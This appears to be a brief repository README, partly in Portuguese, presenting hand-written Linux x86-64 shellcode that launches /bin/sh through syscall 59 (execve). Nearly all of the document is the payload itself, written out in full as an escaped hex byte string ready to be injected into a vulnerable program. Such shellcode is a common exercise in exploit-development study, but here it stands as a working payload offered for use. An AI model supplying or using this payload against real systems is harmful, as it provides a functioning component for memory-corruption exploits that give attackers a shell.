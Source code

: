 ASM-64vit
=========
Shellcode develoop Linux 64 bit
executando uma bin/sh com a syscall 59
Payload:
********************************************************************************
\x48\x31\xd2\x48\x89\xd6\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe7\x08
\x48\xc1\xef\x08\x57\x48\x89\xe7\x48\xb8\x3b\x11\x11\x11\x11\x11\x11\x11\x48\xc1
\xe0\x38\x48\xc1\xe8\x38\x0f\x05
********************************************************************************

